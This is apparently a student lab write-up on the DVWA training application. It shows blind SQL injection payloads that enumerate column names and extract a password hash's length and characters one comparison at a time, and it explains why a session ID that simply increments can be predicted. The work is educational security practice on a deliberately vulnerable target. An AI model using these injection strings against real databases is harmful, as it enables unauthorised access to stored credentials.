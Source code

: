    `1' and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name=${given_name})=1`

   And it returns `exists` when we try 'user' & 'password', those are the name of columns which store the message we want.

9. Get the value of 'password'.

   1. Find the length of 'password' in line 1.

      - Input `1' and length(substr((select password from users limit 0,1),1))>10 #`, return `exists`.
      - Input `1' and length(substr((select password from users limit 0,1),1))>20 #`, return `exists`.
      - Input `1' and length(substr((select password from users limit 0,1),1))>40 #`, return `MISSING`.
      - Input `1' and length(substr((select password from users limit 0,1),1))>30 #`, return `exists`.
      - Input `1' and length(substr((select password from users limit 0,1),1))>35 #`, return `MISSING`.
      - Input `1' and length(substr((select password from users limit 0,1),1))>32 #`, return `MISSING`.
      - Input `1' and length(substr((select password from users limit 0,1),1))>31 #`, return `MISSING`.

      Thus, the length of password in line 1 is 32.

   2. Find each characters of password in line 1.
      For the 1^st^ char:

      - Input `1' and ascii(substr((select password from users limit 0,1),1,1))>88 #`, return `exists`
      - ...

      We can find the 1^st^ char is 'f', and we can do the same for the rest.

      For it costs too many times, I wrote a script to enumerate the password, and this is the output:

      ![6-getPws](/Users/shen/Desktop/网安实践/labs/Lab3/img/6-getPws.png)

## 7 Weak Session IDs

> View backend code and understand why these IDs can be predicted.

View the source code, we could find that:

- If it's a POST request.
  - If 'last_session_id' has NOT been set, simply set it as `0`.
  - If 'last_session_id' has been set, just make `last_sesson_id++` & set Cookie 'dvwaSession' = 'last_session_id'.
  
  Which makes the session ID pretty easy to be predicted.

<img src="/Users/shen/Desktop/网安实践/labs/Lab3/img/7-src.png" alt="7-src" style="zoom:38%;" />

With the help of Wireshark, we could see the header of the packet:

<img src="/Users/shen/Desktop/网安实践/labs/Lab3/img/7-sessionID.png" alt="7-sessionID" style="zoom:38%;" />

And we can see the Cookie change as follows as we replay for once:

```text
Cookie:
dvwaSession = 1; security=low; PHPSESSID=820u@bga16032f15g7cj8fmo72
```
